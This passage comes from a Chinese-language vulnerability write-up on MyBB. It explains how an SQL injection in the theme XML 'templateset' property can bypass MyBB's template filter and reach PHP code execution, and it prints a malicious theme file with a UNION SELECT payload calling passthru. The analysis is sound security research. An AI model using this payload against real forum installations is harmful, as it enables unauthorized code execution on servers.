 但是，MyBB还会通过阻止管理员插入这种插值来防止这种独特的PHP怪癖。这意味着如果我们可以找到MyBB过滤器的绕过方式，那么我们就仍然可以执行任意PHP代码。接下来，我们将利用SQL注入漏洞来绕过MyBB过滤器。

我们可以将包含了主题属性的XML文件引入进MyBB主题之中，比如说：

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;theme name="Theme Example" version="1405"&gt;
   &lt;properties&gt;
      &lt;templateset&gt;&lt;![CDATA[10]]&gt;&lt;/templateset&gt;
      &lt;imgdir&gt;&lt;![CDATA[images/]]&gt;&lt;/imgdir&gt;
      &lt;logo&gt;&lt;![CDATA[images/logo.png]]&gt;&lt;/logo&gt;
   &lt;/properties&gt;
   &lt;stylesheets&gt;&lt;/stylesheets&gt;
   &lt;templates&gt;
      &lt;template name="header_welcomeblock_member_moderator" version="1404"&gt;&lt;![CDATA[
         &lt;div id='welcomeblock_back'&gt;&lt;b&gt;`{`$mybb-&gt;user['username']`}`&lt;/b&gt;&lt;/div&gt;
      ]]&gt;&lt;/template&gt;
   &lt;/templates&gt;
&lt;/theme&gt;
```

每当管理员导入这样的主题时，都会对XML进行解析，并将主题的属性存储到数据库中。事实证明，templateset属性很容易受到SQL注入的影响。当上传这些主题时，它们被插入MyBB实例的数据库中，然后在其他SQL查询中使用，而不进行任何过滤。

### <a class="reference-link" name="SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E7%9B%B8%E5%85%B3%E4%BB%A3%E7%A0%81%E5%A6%82%E4%B8%8B%EF%BC%9A"></a>SQL注入漏洞相关代码如下：

```
$query = $db-&gt;simple_select("templates", "title,template",
    "title IN (''$sql) AND sid IN ('-2','-1','".$theme['templateset']."')",
    array('order_by' =&gt; 'sid', 'order_dir' =&gt; 'asc')
```

如上所示，通过使用恶意主题，我们将能够控制相关属性，并让此缓存函数返回攻击者控制的值。以下是一个使用SQL注入Payload构建的主题的示例：

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;theme name="Default" version="1821"&gt;
   &lt;properties&gt;
      &lt;templateset&gt;') AND 1=0 UNION SELECT title, '$`{`passthru(\'ls\')`}`' from mybb_templates -- &lt;/templateset&gt;
   &lt;/properties&gt;
&lt;/theme&gt;
```

导致的SQL查询语句将如下所示：

```
SELECT title, template FROM mybb_templates WHERE 
   title IN (‘header_welcomeblock_member_moderator’, ‘...’) AND SID IN (‘-2’, ‘-1’, ‘’) 
   AND 1=0 UNION SELECT title, '$`{`passthru(\'ls\')`}`' from mybb_templates -- ’)
```



## 总结

像WordPress和Magento曾经都出现过类似的安全问题，因此我们建议不要在解析器中过多地使用正则表达式，因为这会增加数据处理的复杂程度，而且这往往还会得不偿失。
